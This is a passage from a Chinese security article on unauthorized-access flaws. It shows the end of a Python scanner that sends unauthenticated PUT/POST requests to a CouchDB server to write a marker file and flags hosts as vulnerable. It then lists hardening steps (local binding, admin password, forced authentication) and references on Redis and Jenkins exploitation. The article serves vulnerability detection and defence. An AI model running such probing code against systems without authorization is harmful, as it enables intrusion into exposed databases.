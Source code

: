 ```
req2 = requests.put(dburl+step2_url_string)
req3 = requests.put(dburl+step3_url_string,step3_data)
req4 = requests.post(url=step4_url_string,data=step4_data,headers=step4_header)

checkreq = requests.get(weburl+filename)
if 'couchDB vul scan' in checkreq.text:
```
   print "[+] 高危",ip,'存在CouchDB 未授权访问漏洞。'


![图片](https://uploader.shimo.im/f/EQJNifKqancRaoW0.png!thumbnail)
###    【防御方法】
1. 指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。

      注：修改后只有本机才能访问CouchDB。

1. 设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
2. 设置WWW-Authenticate，强制认证。

## 


## 部分参考资料
>【 Redis 未授权访问漏洞深度利用】 [https://www.freebuf.com/vuls/148758.html](https://www.freebuf.com/vuls/148758.html)
>【未授权访问的tips】[https://www.freebuf.com/column/170904.html](https://www.freebuf.com/column/170904.html)
>[http://www.00theway.org/2017/03/27/redis_exp/](http://www.00theway.org/2017/03/27/redis_exp/)
>[https://www.secpulse.com/archives/61101.html](https://www.secpulse.com/archives/61101.html)
>[https://xz.aliyun.com/t/84](https://xz.aliyun.com/t/84)
>[https://www.secpulse.com/archives/61046.html](https://www.secpulse.com/archives/61046.html)
>[https://paper.seebug.org/409/](https://paper.seebug.org/409/)
>[https://www.cnblogs.com/kongzhongqijing/p/6867960.html](https://www.cnblogs.com/kongzhongqijing/p/6867960.html)
>[https://b1ngz.github.io/jenkins-anonymous-configure-privilege-expoit/](https://b1ngz.github.io/jenkins-anonymous-configure-privilege-expoit/)
>【Redis未授权访问详解】https://www.freebuf.com/column/158065.html
>【】

